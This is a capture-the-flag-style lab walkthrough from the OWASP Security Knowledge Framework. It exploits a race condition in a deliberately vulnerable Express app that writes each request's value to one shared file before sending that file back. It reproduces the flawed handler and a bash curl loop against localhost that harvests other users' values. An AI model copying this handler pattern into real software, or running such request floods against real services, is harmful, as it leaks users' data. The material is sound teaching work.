 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-racecondition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/1.png)

Let's try:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```javascript
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
```

#### Step 3

We have a very small window between the writing of the file:

```javascript
fs.writeFileSync("shared-file.txt", req.params.value);
```

and the response:

```javascript
fs.open("shared-file.txt", "r", (err, fd) => {
  let file = fs.readFileSync("shared-file.txt", "utf8");
  res.setHeader("Content-Type", "text/html", "charset=utf-8");
  res.setHeader("Content-Disposition", "attachment; filename=shared-file.txt");
  res.sendFile(__dirname + "/shared-file.txt");
});
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/4.png)

If we look in the logs we will see:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/5.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/RaceCondition-file-write/6.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
